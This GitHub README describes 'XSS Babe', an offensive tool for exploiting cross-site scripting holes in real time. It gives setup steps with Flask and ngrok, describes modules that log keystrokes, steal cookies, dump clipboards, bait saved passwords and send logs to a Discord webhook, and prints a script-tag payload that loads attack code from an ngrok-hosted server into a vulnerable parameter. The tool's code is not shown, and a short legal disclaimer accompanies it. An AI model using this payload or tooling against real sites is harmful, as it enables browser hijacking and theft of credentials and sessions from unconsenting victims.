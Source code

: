 # XSS BABE

XSS Babe is a red team tool for exploiting XSS vulnerabilities in real time. It automates payload delivery, logs sessions, and enables live browser-based attacks from a command-line interface. Built for ethical hacking, phishing research, and security education.

---

## ⚠️ Legal Disclaimer

Never use this tool without proper consent. 
 
User assumes all risks when using this tool.

ekomsSavior provides this tool without warranty. 
 
 ---

##  File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI launcher
├── server.py                   # Flask backend serving modules and payloads
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # Main XSS loader script
│   └── modules/                # Individual attack modules
│       ├── auto_cookie_steal.js
│       ├── clipboard.js
│       ├── cross_tab_messaging_spy.js
│       ├── discord_logger.js
│       ├── fake_download.js
│       ├── history_stealer.js
│       ├── keylogger.js
│       └── password_bait.js
├── utils/
│   └── save_to_txt.py          # Optional utilities for saving session data
└── session_reports/
    └── example_report          # Placeholder file to preserve folder
```

---

##  Installation

**Dependencies (Tested on Kali Linux):**

```bash
sudo apt update
sudo apt install python3 python3-pip unzip -y
pip3 install -r requirements.txt
```

**Install Ngrok:**

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

##  Ngrok Setup

1. Sign up: https://ngrok.com/signup  
2. Get your auth token: https://dashboard.ngrok.com/get-started/setup  
3. Add it to your config:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

##  Usage

```bash
python3 xss_babe_cli.py
```

### What Happens:

- You enter a vulnerable XSS URL (e.g. `https://vuln.site/?q=`)
- Flask server and Ngrok auto-launch
- Payload is generated with the hosted `x.js`
- CLI menu opens with live attack modules
- All session info is logged to `session_reports/`

---

##  Example Payload

Replace `YOUR_NGROK_URL` with the tunnel shown in the CLI:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

Paste this into any vulnerable parameter, form, or field you control.

---

##  Attack Modules

| Module                   | Description                                         |
|--------------------------|-----------------------------------------------------|
| keylogger                | Records keystrokes live from the victim             |
| clipboard                | Dumps clipboard contents                            |
| auto_cookie_steal        | Steals document cookies silently                    |
| discord_logger           | Sends logs to Discord webhook (edit inside script)  |
| fake_download            | Triggers fake file downloads (ZIP, PDF, etc.)       |
| password_bait            | Displays bait input field to trap saved passwords   |
| history_stealer          | Dumps limited browsing history if accessible        |
| cross_tab_messaging_spy  | Tracks multiple browser tabs or windows             |

---

##  Session Logs

All payloads and events are saved to:

```
session_reports/YYYY-MM-DD-HHMMSS.txt
```

This includes:
- Target URL
- Payload used
- Ngrok tunnel
- Timestamp

---

## Stay Ethical

Never deploy on unauthorized systems.

---

##  Author by [ekomsSavior](https://github.com/ekomsSavior) 🖤
